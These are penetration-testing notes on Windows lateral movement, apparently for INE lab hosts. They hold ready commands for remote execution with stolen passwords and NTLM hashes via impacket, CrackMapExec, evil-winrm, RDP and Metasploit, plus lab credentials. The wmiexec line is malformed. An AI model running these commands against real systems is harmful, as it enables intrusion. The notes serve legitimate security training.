

# Windows Lateral Movement

## Credential-Based Lateral Movement

### SMB

<mark style="color:$danger;">`impacket-Psexec`</mark>

<pre class="language-shellscript"><code class="lang-shellscript"><strong>impacket-psexec administrator:&#x3C;Password>@demo.ine.local
</strong></code></pre>

<figure><figcaption></figcaption></figure>

<mark style="color:$danger;">`impacket-smbexec`</mark>

```shellscript
impacket-smbexec administrator:<Password>@demo.ine.local
```

<figure><figcaption></figcaption></figure>

<mark style="color:$danger;">**`CrackMapExec`**</mark>


```shellscript
crackmapexec smb demo.ine.local -u Administrator -p 'sebastian' -x whoami
```


<figure><figcaption></figcaption></figure>

### RDP

```shellscript
xfreerdp /u:administrator /p:harry_123321 /v:demo2.ine.local
```

<figure><figcaption></figcaption></figure>

### winRM

```shellscript
evil-winrm -u administrator -p rocknroll_123321 -i demo.ine.local -s /root/Desktop/tools/scripts
```

<figure><figcaption></figcaption></figure>

***

## Path The Hash

#### **Pass The Hash: Metasploit**

```shellscript
msfconsole -q
use exploit/windows/smb/psexec
set RHOSTS demo.ine.local
set SMBUSER administrator
set SMBPASS 00000000000000000000000000000000:5c4d59391f656d5958dab124ffeabc20
exploit
```


#### **Pass The Hash - WMIExec**

```shellscript
impacket-wmiexec-hashes 00000000000000000000000000000000:5c4d59391f656d5958dab124ffeabc20 administrator@192.168.1.4
```


